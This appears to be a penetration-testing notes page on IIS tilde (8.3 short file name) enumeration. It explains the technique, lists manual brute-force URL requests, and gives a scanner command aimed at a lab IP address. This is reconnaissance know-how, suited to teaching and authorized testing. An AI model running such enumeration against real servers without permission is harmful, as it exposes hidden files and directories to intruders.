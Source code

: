 # IIS tilde enumeration
## info
IIS tilde directory enumeration is a technique utilised to uncover hidden files, directories, and short file names (aka the 8.3 format) on some versions of Microsoft Internet Information Services (IIS) web servers. This method takes advantage of a specific vulnerability in IIS, resulting from how it manages short file names within its directories.  

When a file or folder is created on an IIS server, Windows generates a short file name in the 8.3 format, consisting of eight characters for the file name, a period, and three characters for the extension. Intriguingly, these short file names can grant access to their corresponding files and folders, even if they were meant to be hidden or inaccessible.  

The tilde (~) character, followed by a sequence number, signifies a short file name in a URL. Hence, if someone determines a file or folder's short file name, they can exploit the tilde character and the short file name in the URL to access sensitive data or hidden resources.  

IIS tilde directory enumeration primarily involves sending HTTP requests to the server with distinct character combinations in the URL to identify valid short file names. Once a valid short file name is detected, this information can be utilised to access the relevant resource or further enumerate the directory structure.  

## IIS tilde enumeration manually
The enumeration process starts by sending requests with various characters following the tilde, and bruteforcing the chars one by one:
<pre>
dir name: secre~1
  
http://example.com/~a
http://example.com/~b
http://example.com/~c
...
http://example.com/~s

got HTTP 200 response

http://example.com/~sa
http://example.com/~sb
...
http://example.com/~se

got HTTP 200 response

http://example.com/~sea
http://example.com/~seb
http://example.com/~sec

got HTTP 200 response
...

http://example.com/secre~1/random_file1

</pre>
## IIS-ShortName-Scanner
https://github.com/irsdl/IIS-ShortName-Scanner  
java -jar iis_shortname_scanner.jar 0 5 http://10.129.204.231/  
(Do you want to use proxy [Y=Yes, Anything Else=No]? No)  
